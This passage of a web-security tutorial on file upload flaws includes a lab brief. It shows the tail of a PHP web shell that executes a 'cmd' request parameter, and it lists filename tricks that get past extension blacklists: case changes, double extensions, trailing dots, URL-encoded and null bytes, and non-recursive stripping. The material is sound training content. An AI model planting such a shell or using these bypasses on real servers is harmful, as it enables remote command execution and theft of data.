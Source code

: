 ```
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```
the `.l33t` file was executed as if it were a .php file

## Obfuscating file extensions

Even the most exhaustive blacklists can potentially be bypassed using classic obfuscation techniques. Let's say the validation code is case sensitive and fails to recognize that exploit.pHp is in fact a .php file. If the code that subsequently maps the file extension to a MIME type is not case sensitive, this discrepancy allows you to sneak malicious PHP files past validation that may eventually be executed by the server.

You can also achieve similar results using the following techniques:

-    Provide multiple extensions. Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or JPG image: `exploit.php.jpg`
-    Add trailing characters. Some components will strip or ignore trailing whitespaces, dots, and suchlike: `exploit.php.`
-    Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`
-    Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, for example, this can cause discrepancies in what is treated as the end of the filename: `exploit.asp;.jpg` or `exploit.asp%00.jpg`
-    Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.

Other defenses involve stripping or replacing dangerous extensions to prevent the file from being executed. If this transformation isn't applied recursively, you can position the prohibited string in such a way that removing it still leaves behind a valid file extension. For example, consider what happens if you strip .php from the following filename:
`exploit.p.phphp`
### Lab: Web shell upload via obfuscated file extension

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.
